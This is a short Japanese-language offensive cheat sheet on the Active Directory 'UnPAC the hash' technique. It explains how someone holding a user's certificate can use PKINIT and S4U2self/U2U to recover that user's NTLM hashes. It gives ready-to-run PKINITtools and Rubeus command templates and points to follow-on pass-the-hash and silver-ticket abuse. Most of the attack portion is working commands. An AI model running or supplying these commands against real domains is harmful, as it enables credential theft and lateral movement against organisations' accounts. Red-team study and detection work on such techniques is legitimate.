

# UnPAC The Hash

PKINIT を用いて TGT (Ticket Granting Ticket) を取得する場合、KDC (Key Distribution Center) は認証ユーザの NTLM 鍵 (LM および NT ハッシュ) を含む`PAC_CREDENTIAL_INFO`構造体をチケットに含める。この機能により、リモートサーバが Kerberos をサポートしていない場合でも、非対称な Kerberos の事前認証機構(PKINIT など)に依存することなく、NTLM 認証に切り替えることができる。

NTLM 鍵は、U2U による TGS-REQ と S4U2self (これは KDC に対するサービスチケットのリクエストであり、ユーザ自身に対する認証を要求するものである) の後に回復可能である。(`S4U2self + User-to-User authentication`)

以下のプロトコル図に、UnPAC-the-hash がどのように動作するのかを詳細に示す。これにより、ユーザの秘密鍵を知っている攻撃者や、[Shadow Credentials](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/Shadow%20Credentials.md)や[Golden Certificate]()攻撃を行なうことができる攻撃者は、ユーザの LM ハッシュや NT ハッシュを復元することができる。



## UnPAC-The-Hash

### Linux

[PKINITtools (Python)](https://github.com/dirkjanm/PKINITtools) で、まずPKINIT 事前認証を検証してTGT を取得

```
gettgtpkinit.py -cert-pfx <PATH_TO_CERTIFICATE> -pfx-pass <CERTIFICATE_PASSWORD> <DOMAIN>/<TargetUser> <TGT_CCACHE_FILE>
```

NTLMハッシュを復元

```
export KRB5CCNAME=<TGT_CCACHE_FILE>
getnthash -key <AS-REP encryption key> <DOMAIN>/<TargetUser>
```

### Windows

Rubeus

```
Rubeus.exe asktgt /getcredentials /user:<TargetUser> /certificate:<BASE64_CERTIFICATE> /password:<CERTIFICATE_PASSWORD> /domain:<DOMAIN> /dc:<DC_DOMAIN> /show
```

## さらに悪用する

NTハッシュは[Pass-The-Hass]()、[Silver Ticket](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/Forged%20Tickets/Silver%20Tickets.md)、[Kerberos delegations]()に悪用できる
